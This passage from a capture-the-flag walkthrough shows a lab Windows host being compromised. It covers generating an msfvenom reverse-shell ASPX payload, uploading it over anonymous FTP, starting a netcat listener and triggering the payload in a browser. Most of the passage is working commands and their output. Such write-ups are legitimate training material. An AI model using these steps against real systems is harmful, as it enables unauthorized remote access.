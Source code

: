 {% raw %}
```sh
└──╼ [★]$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.29 LPORT=443 -f aspx -o rev.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of aspx file: 2713 bytes
Saved as: rev.aspx
```
{% endraw %}

<br />
Use the ftp service with the anonymous account and transfer the exploit file to victim machine.

{% raw %}
```sh
└──╼ [★]$ ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> put rev.aspx
local: rev.aspx remote: rev.aspx
229 Entering Extended Passive Mode (|||49160|)
125 Data connection already open; Transfer starting.
100% |*************************************************************************************************************************************************|  2751       13.73 MiB/s    --:-- ETA
226 Transfer complete.
2751 bytes sent in 00:00 (27.34 KiB/s)
```
{% endraw %}

<br />
Start a listener listening on the LPORT that was chosen in the msfvenom exploit.

{% raw %}
```sh
└──╼ [★]$ sudo nc -nlvp 443
listening on [any] 443 ...
```
{% endraw %}

<br />
In the web browser, navigate to the aspx that we just transfer.

<div class="row justify-content-sm-center">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="/assets/img/devel/browser.png" title="Navigate in the Browser" class="img-fluid rounded z-depth-1" %}
    </div>
</div>
